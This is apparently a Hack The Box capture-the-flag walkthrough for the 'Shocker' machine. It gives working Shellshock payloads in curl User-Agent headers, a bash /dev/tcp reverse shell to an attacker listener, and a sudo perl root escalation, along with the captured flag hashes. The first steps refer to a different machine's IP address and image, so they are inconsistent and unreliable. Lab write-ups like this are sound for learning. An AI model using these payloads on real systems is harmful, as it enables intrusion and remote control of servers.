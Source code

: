 ![Netmon.PNG](/assets/Machines/Easy/Netmon/Netmon.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.152
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.152
```
**Output**
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

3. Visit web page

![web.PNG](/assets/Machines/Easy/Shocker/web.PNG)

4. Use **wfuzz** to do dir busting
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://10.10.10.56/FUZZ/
```

**Output**
```bash
...
000000035:   403        11 L     32 W       294 Ch      "cgi-bin"
...
```

5. We dont have permission to listing **cgi-bin directory**. This directory have scripts **.sh** and **.pl**, do again dir busting but, in this case search files with previous extensions.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -z list,pl-sh-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2
```

**Output**
```bash
...
000000374:   200        7 L      17 W       118 Ch      "user - sh"
...
```

6. If you visit previous file you download this, in this case we can try to know if web page is vulnerable to **shellshock**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56 
```

**Output**
```bash
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685
```

* Web page is vulnerable to **shellshock attack**

7. To know what field is vulnerable you can capture the petition of previous command and use tshark to watch more information

First, with tshark catch all information on **tun0 interface**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| tshark -w Captura.pcap -i tun0
```

---

Then, execute previous nmap command to know if web is vulnerable to **shellshock attack**

---

Next, use **tshark** to filter more information 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| tshark -r  Captura.pcap -Y 'http' -Tfields -e tcp.payload  2>/dev/null | xxd -ps -r; echo
```

**Output**
```bash
Referer: () { :;}; echo; echo -n luqatly; echo kajxoly
User-Agent: () { :;}; echo; echo -n luqatly; echo kajxoly
Host: 10.10.10.56
Connection: close
Cookie: () { :;}; echo; echo -n luqatly; echo kajxoly
```

* We look the fields, now we can try to execute `() { :;}echo; <command>` in any previous fields

8. The field vulnerable is **User-Agent**, use curl to try command execution
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| curl -s -X GET -H 'User-Agent: () { :;};echo; /usr/bin/whoami' http://10.10.10.56/cgi-bin/user.sh
shelly
```

* We can execute commands!


9. Do command to get a reverse shell
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| curl -s -X GET -H "User-Agent: () { :;};echo; /bin/bash -i >& /dev/tcp/<tun0 IP>/<Port> 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

* Remember listen with **nc** in our machine
  
**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Shocker]
└─| nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.56] 45374
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

10. Cat user flag
```bash
shelly@Shocker:/home/shelly$ cat user.txt 
fbbd65cc2beaedb01a87c2ef2f907b87
```

---
---
---

## **Privileges Escalation** 💀
1. Search ways to be root
```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

2. Visit https://gtfobins.github.io/ to get a way to be root with **perl**

![perl.PNG](/assets/Machines/Easy/Shocker/perl.PNG)

3. Execute commando to get a shell how root
```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
```

4. Cat **root flag**
```bash
# cat /root/root.txt
71f24c6fd59598c49e20706f3139104c
```